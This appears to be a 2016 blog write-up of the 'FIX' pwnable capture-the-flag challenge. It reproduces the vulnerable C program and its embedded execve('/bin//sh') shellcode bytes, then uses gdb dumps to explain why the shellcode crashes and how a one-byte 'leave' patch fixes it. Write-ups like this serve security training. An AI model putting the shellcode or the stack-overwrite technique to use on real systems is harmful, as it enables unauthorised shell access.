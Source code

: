 ```yaml
---
layout: post
title:  "Pwnable: FIX Write-up"
description: Write-up of "FIX" problem
img: no image
date: 2016-03-07  +0200
---
```


Below is the source code of vulnerable binary file.  

{% highlight c %}
#include <stdio.h>

// 23byte shellcode from  
// http://shell-storm.org/shellcode/files/shellcode-827.php
char sc[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
                "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

void shellcode(){
        // a buffer we are about to exploit!
        char buf[20];

        // prepare shellcode on executable stack!
        strcpy(buf, sc);

        // overwrite return address!
        *(int*)(buf+32) = buf;

        printf("get shell\n");
}

int main(){
        printf("What the hell is wrong with my shellcode??????\n");
        printf("I just copied and pasted it from shell-storm.org :(\n");
        printf("Can you fix it for me?\n");

        unsigned int index=0;
        printf("Tell me the byte index to be fixed : ");
        scanf("%d", &index);
        fflush(stdin);

        if(index > 22)  return 0;

        int fix=0;
        printf("Tell me the value to be patched : ");
        scanf("%d", &fix);

        // patching my shellcode
        sc[index] = fix;

        // this should work..
        shellcode();
        return 0;
}

{% endhighlight %}

If you analyze binary file, you could figure out that we could modify 1 byte of shellcode, and we must leverage this vulnerability to obtain privileged shell.  
The shellcode is embedded in the binary and I have checked whether it is valid shellcode as below:  

> xor    %eax,%eax  
> push   %eax  
> push   $0x68732f2f  
> push   $0x6e69622f  
> mov    %esp,%ebx  
> push   %eax  
> push   %ebx  
> mov    %esp,%ecx  
> mov    $0xb,%al  
> int    $0x80  

Indeed it is valud shellcoded.  
To briefly explain meaning of "push $0x68732f2f" and "push $0x6e69622f".  
This is very basic technique to create shellcode. It embeds necessary strings in the exploit code as follow:  

> push '/' ; is push 0x2f  
> push 'b' ; is push 0x62  
> push 'i' ; is push 0x69  
> push 'n' ; is push 0x6e  
> push '/' ; is push 0x2f  
> push '/' ; is push 0x2f  
> push 's' ; is push 0x73  
> push 'h' ; is push 0x68  

However, even if it is valid shellcode, If you execute the program, it crashes!!!  
You need to analyze why this is happening..  
I started analyzing using gdb.  
Let's disam shellcode function.  

> (gdb) disas shellcode  
> Dump of assembler code for function shellcode:  
> 0x080484e4 <+0>: push ebp  
> 0x080484e5 <+1>: mov ebp,esp  
> 0x080484e7 <+3>: sub esp,0x38  
> 0x080484ea <+6>: mov DWORD PTR [esp+0x4],0x804a024  
> 0x080484f2 <+14>: lea eax,[ebp-0x1c]  
> 0x080484f5 <+17>: mov DWORD PTR [esp],eax  
> 0x080484f8 <+20>: call 0x80483e0 <strcpy@plt>  
> 0x080484fd <+25>: lea eax,[ebp-0x1c]  
> 0x08048500 <+28>: lea edx,[eax+0x20]  
> 0x08048503 <+31>: lea eax,[ebp-0x1c]  
> 0x08048506 <+34>: mov DWORD PTR [edx],eax  
> 0x08048508 <+36>: mov DWORD PTR [esp],0x80486a0  
> 0x0804850f <+43>: call 0x80483f0 <puts@plt>  
> 0x08048514 <+48>: leave  
> 0x08048515 <+49>: ret  
> End of assembler dump.  

break at shellcode+6 and evaluate stack.

(gdb) x/10i *shellcode  

0x80484e4 <shellcode>: push ebp  
  
0x80484e5 <shellcode+1>: mov ebp,esp  

0x80484e7 <shellcode+3>: sub esp,0x38  

=> 0x80484ea <shellcode+6>: mov DWORD PTR [esp+0x4],0x804a024  

0x80484f2 <shellcode+14>: lea eax,[ebp-0x1c]  

0x80484f5 <shellcode+17>: mov DWORD PTR [esp],eax  

0x80484f8 <shellcode+20>: call 0x80483e0 <strcpy@plt>  

0x80484fd <shellcode+25>: lea eax,[ebp-0x1c]  

0x8048500 <shellcode+28>: lea edx,[eax+0x20]  

0x8048503 <shellcode+31>: lea eax,[ebp-0x1c]  


> (gdb) x/10wx $ebp  
> 0xfff7bed8: 0xfff7bf08 **(old ebp)** 0x080485c7 **(ret)** 0x0804874e 0xfff7bef8  
> 0xfff7bee8: 0xf772cff4 0xf75bd1a5 0xf774f660 0x00000000  
> 0xfff7bef8: 0x000000c9 0x0000000d  

You can see that return address is at 0xfff7bedc. If we could overwrite it, we could execute our shellcode.  
If you further analyze the binary code, you can find some interesting stuff is going on.

> => 0x80484fd <shellcode+25>: lea eax,[ebp-0x1c]  
> 0x8048500 <shellcode+28>: lea edx,[eax+0x20]  
> 0x8048503 <shellcode+31>: lea eax,[ebp-0x1c]  
> 0x8048506 <shellcode+34>: mov DWORD PTR [edx],eax  

> (gdb) x/10bx $ebp-0x1c --> **our shellcode is here**  
> 0xfff7bebc: 0x31 0xc0 0x50 0x68 0x2f 0x2f 0x73 0x68  
> 0xfff7bec4: 0x68 0x2f  
> (gdb) x/wx $eax+0x20 --> **this refers ret**  
> 0xfff7bedc: 0x080485c7  

this means, our shellcode will overwrite ret address with below instruction.  
awesom!    
> 0x8048506 <shellcode+34>:    mov    DWORD PTR [edx],eax   

After above instruction, ret is changes to shellcode..  
(gdb) x/10i 0xfff7bebc  

=>0x804a024 <sc>: xor eax,eax  
  
0x804a026 <sc+2>: push eax  

0x804a027 <sc+3>: push 0x68732f2f  

0x804a02c <sc+8>: push 0x6e69622f  

0x804a031 <sc+13>: mov ebx,esp  

0x804a033 <sc+15>: push eax  

0x804a034 <sc+16>: push ebx  

0x804a035 <sc+17>: mov ecx,esp  

0x804a037 <sc+19>: mov al,0xb  

0x804a039 <sc+21>: int 0x80  

so far so good. Then why the program crashes?  
The program crashes after executing below instruction.  
> => 0x804a02c <sc+8>: push 0x6e69622f

very interesting..  
The reason program crashes is that eip is increased as the instruction executed, whereas esp decreases as push instruction is executed. So, there is 5 push instructions in the shellcode..  
{% highlight markdown %}
> On the second push instruction, because esp is pointing to eip memory region, it overwrites eip and therefore, program crashes with illegal instrction.  
{% endhighlight %}

**In order to solve this problem, you need to leverage "leave" instruction to change esp value so that it does not overwrite eip. **
**0xc9 is leave instruction, and since we could modify one byte, we can change insert it into our shellcode **
**Leave instruction changes esp value to ebp value. **

leave ins is equavalent to mov esp, ebp and pop ebp.  

; enter  
push ebp  
mov ebp, esp  

; leave  
mov esp, ebp  
pop ebp  
